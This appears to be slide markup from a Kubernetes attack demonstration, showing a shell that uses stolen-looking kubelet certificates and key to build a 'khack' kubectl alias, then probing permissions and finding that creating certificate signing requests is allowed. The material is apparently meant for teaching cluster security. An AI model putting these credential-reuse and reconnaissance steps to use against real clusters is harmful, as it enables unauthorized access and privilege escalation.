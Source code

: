 ### Prepare workbench
[.code-highlight: none]
[.code-highlight: 1-2]
[.code-highlight: 4-9]

```bash
root@hckd# ls
apiserver.crt  kubelet.crt  kubelet.key

root@hckd# alias khack="kubectl \
#               --client-certificate    kubelet.crt           \
#               --client-key            kubelet.key           \
#               --certificate-authority apiserver.crt         \
#               --server https://${KUBERNETES_PORT_443_TCP_ADDR}"
```

---
[.autoscale: false]
[.code-highlight: none]
[.code-highlight: 1]
[.code-highlight: 2-3]
[.code-highlight: 5-6]
[.code-highlight: 8-9]
[.code-highlight: 11-12]


### Recon
[.code: #ECAF3F, #ECAF3F, #25DDC6, #25DDC6, #FFFFFF]

```coffeescript
root@hckd# khack get pods
Error from server (Forbidden): pods is forbidden: User "Kubelet" cannot list resource
 "pods" in API group "" in the namespace "default"

root@hckd# khack auth can-i get pods
no

root@hckd# khack auth can-i get certificatesigningrequests
yes

root@hckd# khack auth can-i create csr
yes
```

---
[.autoscale: false]
[.code-highlight: 8-12]


### Recon
[.code: #ECAF3F, #ECAF3F, #25DDC6, #25DDC6, #FFFFFF]

```coffeescript
root@hckd# khack get pods
Error from server (Forbidden): pods is forbidden: User "Kubelet" cannot list resource
 "pods" in API group "" in the namespace "default"

root@hckd# khack auth can-i get pods
no

root@hckd# khack auth can-i get certificatesigningrequests
yes

root@hckd# khack auth can-i create csr
yes
```